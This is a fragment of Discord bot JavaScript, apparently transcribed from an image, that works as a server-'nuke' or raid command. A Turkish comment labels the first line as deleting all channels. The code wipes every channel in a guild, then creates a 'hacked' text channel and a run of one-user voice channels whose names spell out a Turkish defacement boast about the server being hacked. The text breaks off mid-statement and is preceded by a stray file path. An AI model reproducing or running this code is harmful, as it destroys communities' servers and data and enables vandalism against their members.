     await msg.guild.channels.deleteAll();      //TÜM KANALLARI SİLEN KOMUT

    await msg.guild.createChannel("hacked", {
      type: "text"
    });
      await msg.guild
      .createChannel("▬▬▬▬▬▬▬", {
        type: "voice"
      })
      .then(chan => {
        chan.setUserLimit("1");
      });
        await msg.guild
      .createChannel("BU SUNUCU", {
        type: "voice"
      })
      .then(chan => {
        chan.setUserLimit("1");
      });
            await msg.guild
      .createChannel("HACKLENMİŞTİR", { 
        type: "voice"
      })
      .then(chan => {
        chan.setUserLimit("1");
      });
            await msg.guild
      .createChannel("KOLAYSINIZ", {
        type: "voice"
      })
      .then(chan => {
        chan.setUserLimit("1");
      });
        await msg.guild
      .createChannel("▬▬▬▬▬▬▬", {
        type: "voice"
      })
      .then(chan => {
        chan.setUserLimit("1");
      });
            await msg.guild
      .createChannel("KRALLIĞIMIZ", {
        type: "voice"
      })
      .then(chan => {
        chan.setUserLimit("1");
      });
        await msg.guild
      .createChannel("SONSUZ", {
        type: "voice"
      })
      .then(chan => {
        chan.setUserLimit("1");
      });
            await msg.guild
      .createChannel("AFFETMEYİZ", {
        type: "voice"
      })
      .then(chan => {
        chan.setUserLimit("1");
      });
            await msg.guild
      .createChannel("YENİLMEYİZ", {
        type: "voice"
